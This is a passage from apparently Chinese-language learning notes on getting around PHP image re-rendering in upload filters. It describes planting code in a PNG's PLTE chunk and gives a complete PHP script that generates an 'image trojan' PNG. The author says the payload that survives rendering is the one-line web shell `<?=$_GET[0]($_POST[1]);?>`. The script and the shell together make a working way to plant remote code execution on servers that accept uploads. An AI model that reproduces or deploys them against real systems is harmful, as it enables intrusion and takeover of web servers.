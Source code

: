 ##### 准备

​	php底层在对PLTE数据块验证的时候,主要进行了CRC校验.所以可以在该部分**写入代码**，再重新计算CRC码，再修改原来的CRC码即可。

##### 	计算CRC码

​	脚本会打开名为1.png的文件然后输出计算以后的CRC码结果。在把结果覆盖原来的CRC码上传图片就不会出错了。



这个方法我没有尝试，因为我不会python。~~都2020年了还有人不会python，不会吧不会吧~~。😒

等我学会在回来改这一篇吧。

#### 直接生成图片（写入实际数据模块）

​	国外大牛的脚本，直接运行就会生成一个图片

```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```

​	php指令怎么执行？如果你本机有php环境，可以在php的根目录下找到一个名为`php.exe`的可执行文件，它是php提供的一种**CLI**模式，也就是**命令行模式**。我把php脚本放在了php的根目录，然后cmd切换到对应目录执行。

​	还有一种方法是借用本地搭建的靶机环境，把php放在目录使用浏览器访问一下即可。

​	运行成功以后会找到一个名为**1.png**的图片。这个就是生成的图片马了。可以尝试上传进行渲染以后下载到本地，使用文件比较验证。

​	但是这个生成的图片php代码是`<?=$_GET[0]($_POST[1]);?>`，应该是个一句话木马但是现在的我还不会用。源码也不知道怎么修改，总之图片渲染以后代码没有被去掉就算成功了吧，~~应该算吧~~

### jpg格式
